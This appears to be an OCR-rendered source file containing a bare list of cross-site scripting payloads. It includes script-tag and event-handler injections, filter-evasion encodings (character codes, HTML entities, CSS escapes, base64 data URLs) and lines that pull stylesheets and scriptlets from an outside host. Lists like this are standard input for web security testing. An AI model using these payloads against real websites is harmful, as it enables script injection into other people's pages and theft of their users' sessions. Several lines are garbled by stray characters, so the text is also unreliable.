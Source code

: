       <script>alert("hellox worldss")</script>&safe=high&cx=006665157904466893121:su_tzknyxug&cof=FORID:9#510
      <script>alert("XSS");</script>&search=1
      0&q=';alert(String.fromCharCode(88,83,83))//\';alert%2?8String.fromCharCode(88,83,83))//";alert(String.fromCharCode?(88,83,83))//\";alert(String.fromCharCode(88,83,83)%?29//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83%?2C83))</SCRIPT>&submit-frmGoogleWeb=Web+Search
      <h1><font color=blue>hellox worldss</h1>
      <BODY ONLOAD=alert('hellox worldss')>
      <input onfocus=write(XSS) autofocus>
      <input onblur=write(XSS) autofocus><input autofocus>
      <body onscroll=alert(XSS)><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
      <form><button formaction="javascript:alert(XSS)">lol
      <!--<img src="--><img src=x onerror=alert(XSS)//">
      <![><img src="]><img src=x onerror=alert(XSS)//">
      <style><img src="</style><img src=x onerror=alert(XSS)//">
      <? foo="><script>alert(1)</script>">
      <! foo="><script>alert(1)</script>">
      </ foo="><script>alert(1)</script>">
      <? foo="><x foo='?><script>alert(1)</script>'>">
      <! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
      <% foo><x foo="%><script>alert(123)</script>">
      <div style="font-family:'foo&#10;;color:red;';">LOL
      LOL<style>*{/*all*/color/*all*/:/*all*/red/*all*/;/[0]*IE,Safari*[0]/color:green;color:bl/*IE*/ue;}</style>
      <script>({0:#0=alert/#0#/#0#(0)})</script>
      <svg xmlns="http://www.w3.org/2000/svg">LOL<script>alert(123)</script></svg>
      &lt;SCRIPT&gt;alert(/XSS/&#46;source)&lt;/SCRIPT&gt;
      \\";alert('XSS');//
      &lt;/TITLE&gt;&lt;SCRIPT&gt;alert(\"XSS\");&lt;/SCRIPT&gt;
      &lt;INPUT TYPE=\"IMAGE\" SRC=\"javascript&#058;alert('XSS');\"&gt;
      &lt;BODY BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
      &lt;BODY ONLOAD=alert('XSS')&gt;
      &lt;IMG DYNSRC=\"javascript&#058;alert('XSS')\"&gt;
      &lt;IMG LOWSRC=\"javascript&#058;alert('XSS')\"&gt;
      &lt;BGSOUND SRC=\"javascript&#058;alert('XSS');\"&gt;
      &lt;BR SIZE=\"&{alert('XSS')}\"&gt;
      &lt;LAYER SRC=\"http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html\"&gt;&lt;/LAYER&gt;
      &lt;LINK REL=\"stylesheet\" HREF=\"javascript&#058;alert('XSS');\"&gt;
      &lt;LINK REL=\"stylesheet\" HREF=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;css\"&gt;
      &lt;STYLE&gt;@import'http&#58;//ha&#46;ckers&#46;org/xss&#46;css';&lt;/STYLE&gt;
      &lt;META HTTP-EQUIV=\"Link\" Content=\"&lt;http&#58;//ha&#46;ckers&#46;org/xss&#46;css&gt;; REL=stylesheet\"&gt;
      &lt;STYLE&gt;BODY{-moz-binding&#58;url(\"http&#58;//ha&#46;ckers&#46;org/xssmoz&#46;xml#xss\")}&lt;/STYLE&gt;
      &lt;XSS STYLE=\"behavior&#58; url(xss&#46;htc);\"&gt;
      &lt;STYLE&gt;li {list-style-image&#58; url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;UL&gt;&lt;LI&gt;XSS
      &lt;IMG SRC='vbscript&#058;msgbox(\"XSS\")'&gt;
      &lt;IMG SRC=\"mocha&#58;&#91;code&#93;\"&gt;
      &lt;IMG SRC=\"livescript&#058;&#91;code&#93;\"&gt;
      žscriptualert(EXSSE)ž/scriptu
      &lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript&#058;alert('XSS');\"&gt;
      &lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=data&#58;text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K\"&gt;
      &lt;META HTTP-EQUIV=\"refresh\" CONTENT=\"0; URL=http&#58;//;URL=javascript&#058;alert('XSS');\"
      &lt;IFRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/IFRAME&gt;
      &lt;FRAMESET&gt;&lt;FRAME SRC=\"javascript&#058;alert('XSS');\"&gt;&lt;/FRAMESET&gt;
      &lt;TABLE BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
      &lt;TABLE&gt;&lt;TD BACKGROUND=\"javascript&#058;alert('XSS')\"&gt;
      &lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;
      &lt;DIV STYLE=\"background-image&#58;\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028&#46;1027\0058&#46;1053\0053\0027\0029'\0029\"&gt;